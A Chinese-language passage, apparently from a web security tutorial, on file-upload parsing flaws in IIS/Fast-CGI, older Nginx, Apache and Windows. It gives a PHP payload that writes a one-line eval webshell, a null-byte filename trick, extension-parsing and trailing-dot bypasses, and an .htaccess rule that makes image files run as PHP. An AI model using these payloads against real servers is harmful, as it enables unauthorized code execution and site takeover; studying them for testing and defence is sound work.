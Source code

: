
在默认Fast-CGI开启状况下,上传一个名字为sp.jpg的文件，内容为:

```
<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?> 
```

然后访问sp.jpg/.php,在这个目录下就会生成一句话木马 shell.php

### 5.3 Nginx <8.03 空字节代码执行漏洞

影响版:0.5.* ,0.6.* , 0.7 <= 0.7.65, 0.8 <= 0.8.37

Nginx在图片中嵌入PHP代码上传，访问`xxx.jpg%00.php`来执行其中的代码

```
xxx.jpg%00.php 
```

### 5.4 Apache解析漏洞

Apache 是从右到左开始判断解析,如果为不可识别解析,就再往左判断.

比如 sec.php.owf.rar “.owf”和”.rar” 这两种后缀是apache不可识别解析,apache就会把sec.php.owf.rar解析成php.

如何判断是不是合法的后缀就是这个漏洞的利用关键,测试时可以尝试上传一个sec.php.rara.jpg.png…（把你知道的常见后缀都写上…）去测试是否是合法后缀



### 5.5 其他

在windows环境下，xx.jpg[空格] 或xx.jpg. 这两类文件都是不允许存在的，若这样命名，windows会默认除去空格或点,黑客可以通过抓包，在文件名后加一个空格或者点绕过黑名单。

若上传成功，空格和点都会被windows自动消除,这样也可以getshell。

如果在Apache中.htaccess可被执行.且可被上传.那可以尝试在.htaccess中写入:

```
<FilesMatch "sec.jpg"> SetHandler application/x-httpd-php </FilesMatch> 
```

然后再上传shell.jpg的木马, 这样shell.jpg就可解析为php文件。











